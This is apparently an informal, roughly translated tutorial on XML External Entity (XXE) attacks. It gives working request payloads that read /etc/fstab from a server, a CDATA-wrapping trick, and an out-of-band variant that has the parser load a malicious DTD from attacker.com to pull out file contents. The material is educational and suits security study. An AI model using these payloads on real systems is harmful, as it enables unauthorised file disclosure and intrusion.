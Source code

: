 ## Restrictions
For the classic usage of XXE, it is usually more convenient to read the file, but it also determines that the content element that can be parsed must be an XML document.    

As an example:   
request:   
```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/fstab">;
]>
<foo>
  &bar;
</foo>
```   
(usual) response:   
```
HTTP / 1.0 500 Internal Server Error

File "file: /// etc / fstab", line 3
lxml.etree.XMLSyntaxError: Specification mandate value for attribute system, line 3, column 15 ...
```   
/etc/fstabIs a file containing some characters that look like XML (even if they are not XML). This will cause the XML parser to try to parse these elements, only to notice that it is not a valid XML document.

### THEREFORE~!
this limits XML External Entities (XXE) in two important ways.   
1. XXE can only be used to get files or responses containing "valid" XML   
2. XXE cannot be used to get binary files   


## XML External Entities (XXE) Restriction Solution
In fact, this also uses external parameter entities, which solves some problems brought by named entities and ordinary entities   
Attackers use XML external entities (XXE) attack the main problem facing is that it is very easy to hit a brick wall trying to exfiltrate not a valid XML file (XML contains special characters, such as when, for example, plain text file file `&`, `<` and `>`).   

### Solution 
XML has solved this problem, because some legal situations may require storing XML special characters in XML files. CDATAThe XML parser ignores special XML characters in (Character Data) tags.     
`<data> <! [CDATA [<"'&> characters are ok in here]]> </ data>`

Therefore, an attacker could send a request similar to the following:   
request:   
```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY start "<![CDATA[">
  <!ENTITY file SYSTEM 
"file:///etc/fstab">
  <!ENTITY end "]]>">
  <!ENTITY all "&start;&file;&end;">
]>
<data>&all;</data>
```   
With an expected response of ~:   
```
HTTP/1.0 200 OK

# /etc/fstab: static file system informa...
#
# <file system> <mount point> <type> ...
proc  /proc  proc  defaults  0  0
# /dev/sda5
UUID=be35a709-c787-4198-a903-d5fdc80ab2f... # /dev/sda6
UUID=cee15eca-5b2e-48ad-9735-eae5ac14bc9...

/dev/scd0  /media/cdrom0  udf,iso9660 ...
```     
But it doesn't actually work because the XML specification does not allow the use of external entities with internal entities. LOL....     

Example of the internal entity code:    
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>
```     
example of the external entitiy code:    
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

But an attacker can always bullshit their way through... 

#### Focus 1 
There are two types of entities, internal entities and external entities . The example we gave above is an internal entity, but the entity can actually be referenced from an external dtd file.    
We see the following code:     
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
#### Focus 2 
We have divided the entity into two factions (internal entity and external external), but actually from another perspective, the entity can also be divided into two factions (general entity and parameter entity)    
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root>
```

#### Parameter entity:
(1) use `%Entity name` ( there is a space no less ) defined in the DTD, and can only be used in the DTD `%Entity name;` reference   
(2) only in the DTD file, declare the parameter entity to refer to other entities   
(3) and general entity as parameters Entities can also be referenced externally   

Sample code:    
``` 
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

Whats next?

So we have general entities. this is what we have seen so far in this documentation. as well as for parameter entities. I'll show you what parameter entities look like its the same as general entities except that it exists inside the DTD and starts with a% as a prefix to indicate that the XML parser is defining a parameter entity (not generally an entitiy). So ill show you en entitiy parameter is used to define a common entity which is then called inside the XML document.    
request:   
```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % paramEntity
  "<!ENTITY genEntity 'bar'>">
  %paramEntity;
]>
<data>&genEntity;</data>
```   
Expected response:    
```
HTTP/1.0 200 OK

bar
```     
taking into account the that example the attacker can now create an on attacker.com/evil.dtd hosted malicious DTD, the CDATA example above would convert into work the attackers.    
request:    
```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```    
attackers DTD (attacker.com/evil.dtd)    
```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```    

Parsing explained:    
When an attacker sends the above request, the XML parser will first % dtd try to process the parameter entity by making a request to http://attacker.com/evil.dtd .    

Once the attacker's DTD is downloaded, the XML parser will load the `%file` parameter entity (from evil.dtd ), in this case yes `/etc/fstab`. It will then `<![CDATA[ ]]>` use the `%startand` `%end` parameter entities to wrap the contents of the file in tags, respectively, and store them in another named parameter entity `%all`.    
The core of this trick is to %allcreate a called universal entity &fileContents;that can be included in the attacker as part of the response.    
The result is a reply to the attacker, and `/etc/fstab` the contents of the file ( ) are included in the `CDATA` tag.    

  